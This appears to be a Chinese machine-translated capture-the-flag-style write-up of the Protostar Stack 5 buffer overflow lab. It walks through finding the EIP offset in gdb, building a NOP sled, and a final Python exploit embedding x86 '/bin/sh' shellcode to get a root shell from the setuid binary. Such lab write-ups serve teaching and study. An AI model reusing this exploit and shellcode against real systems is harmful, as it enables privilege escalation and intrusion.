




# [ExpDev]漏洞利用练习|原恒星|堆栈 5

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-stack-5-c8d085c914e6?source=collection_archive---------0----------------------->


# 堆栈 5(堆栈缓冲区溢出)

这是一个标准的缓冲区溢出漏洞，我们将使用外壳代码来获取第一个根外壳。

*   链接:[https://exploit-exercises.lains.space/protostar/stack5/](https://exploit-exercises.lains.space/protostar/stack5/)



## 注意事项

*   `gets(buffer);`:易受攻击的函数。它从 stdin 中读取一行，但不检查缓冲区溢出→这容易受到 BOF 类型的攻击。
*   `char buffer[64];`:这将我们的缓冲区长度限制为 64 字节。→我们可以输入超过 64 个字节来引起 BOF。

# 剥削

这个程序非常简单，它只接受我们提供的任何输入。

## 寻找偏移

让我们创建一个 python 脚本来查找可以控制 EIP 的偏移值:

```
#!/usr/bin/pythonpadding = "A" * 70
padding+= "BBBBCCCCDDDDEEEEFFFFGGGG"print padding
```

然后，在一个文件中创建一个漏洞利用的输出，以便我们可以用 gdb 运行它。

```
$ python exp.py > /tmp/stack5/exploit
```

现在，运行 gdb 并提供漏洞文件。

```
**$ gdb -q stack5**
  Reading symbols from /opt/protostar/bin/stack5...done.
**(gdb) break * main**
  Breakpoint 1 at 0x80483c4: file stack5/stack5.c, line 7.
**(gdb) set disassembly-flavor intel**
**(gdb) disassemble main**
  Dump of assembler code for function main:
  0x080483c4 <main+0>: push   ebp
  0x080483c5 <main+1>: mov    ebp,esp
  0x080483c7 <main+3>: and    esp,0xfffffff0
  0x080483ca <main+6>: sub    esp,0x50
  0x080483cd <main+9>: lea    eax,[esp+0x10]
  0x080483d1 <main+13>: mov    DWORD PTR [esp],eax
  0x080483d4 <main+16>: call   0x80482e8 <gets@plt>
  0x080483d9 <main+21>: leave  
  0x080483da <main+22>: ret    
  End of assembler dump.
**(gdb) r < /tmp/stack5/exploit**
  Starting program: /opt/protostar/bin/stack5 < /tmp/stack5/exploit Breakpoint 1, main (argc=1, argv=0xbffff854) at stack5/stack5.c:7
  7 stack5/stack5.c: No such file or directory. in stack5/stack5.c
**(gdb) continue**
  Continuing. Program received signal SIGSEGV, Segmentation fault.
  **0x44444343** in ?? () 
```

“0x43”和“0x44”在 ASCII 表示中分别是“C”和“D”。因此，偏移量为 76 (= 70 + "BBBBCC ")。

```
**...
(gdb) continue**
  Continuing. Program received signal SIGSEGV, Segmentation fault.
  **0x44444343** in ?? () **(gdb) info registers**
  eax            0xbffff760 -1073744032
  ecx            0xbffff760 -1073744032
  edx            0xb7fd9334 -1208118476
  ebx            0xb7fd7ff4 -1208123404
  esp            0xbffff7b0 0xbffff7b0
  ebp            0x43434242 0x43434242
  esi            0x0 0
  edi            0x0 0
  **eip            0x44444343 0x44444343  <---- EIP Overflowed**
  eflags          0x210246 [ PF ZF IF RF ID ]
```

此外，现在我们可以在崩溃时控制 EIP，这意味着我们可以跳转到堆栈中的任何位置。

## 代码执行

不同于之前的练习，没有我们可以跳转到的制胜语句。相反，我们可以在堆栈上引入自己的外壳代码并执行它。

但是要记住的一点是，栈地址会根据`PWD=`环境变量而改变。为了避免这种情况，我们可以简单地在 sleds 代码前添加几个 NOP(无操作)sleds (= \x90)，并将我们的 EIP 指向 NOP 的中间。我们可以使用以下 PoC 脚本来确认这一点:

```
**[exploit.py]**#!/usr/bin/pythonimport struct**### Offset**
padding = "A" * 76**### EIP --> Middle of Random NOPs**
eip = struct.pack("I", 0xbffff7cc) **### Adding NOP Sleds**
nop = "\x90" * 80**### Adding int3 (= Breakpoint)**
payload = "\xCC" * 4print padding + eip + nop + payload
```



正如预期的那样，一旦我们的 EIP 落在 nop 的中间，它就继续使用我们的 int3 (\xCC)断点击中`0xbffff801`。

## 外壳代码

我们现在可以更新我们的`exploit.py`脚本，添加一个 shell 代码，作为“根”用户获得一个交互式 shell。(所有程序都以 setuid 位作为 root)



```
**[exploit.py]**#!/usr/bin/pythonimport structpadding = "A" * 76eip = struct.pack("I", 0xbffff7cc)nop = "\x90" * 80**###** [**http://shell-storm.org/shellcode/files/shellcode-811.php**](http://shell-storm.org/shellcode/files/shellcode-811.php) **### Used a shellcode (x86 '/bin/sh') found in the Internet**shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73" +
             "\x68\x68\x2f\x62\x69\x6e\x89" +
             "\xe3\x89\xc1\x89\xc2\xb0\x0b" +
             "\xcd\x80\x31\xc0\x40\xcd\x80")print padding + eip + nop + shellcode
```

当我们运行有效载荷时，

```
$ python exploit.py > /tmp/stack5/exploit
$ cat /tmp/stack5/exploit | ./stack5
```

它实际上什么也不做。是因为`/bin/sh` shell 期望 stdin 然而，当我们执行我们利用时没有标准输入，所以它立即关闭。

我们可以做的一个技巧是，我们可以在利用脚本中添加`cat`命令，让它在运行时等待 stdin:

```
$ (python exploit.py; cat) | /opt/protostar/bin/stack5
```



当我们运行它时，我们可以使用 root 权限成功打开一个`/bin/sh` shell。感谢阅读！

## 下一个挑战:

*   [**栈 6**](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6) —基于栈的 BOF: ROP (ret2libc)

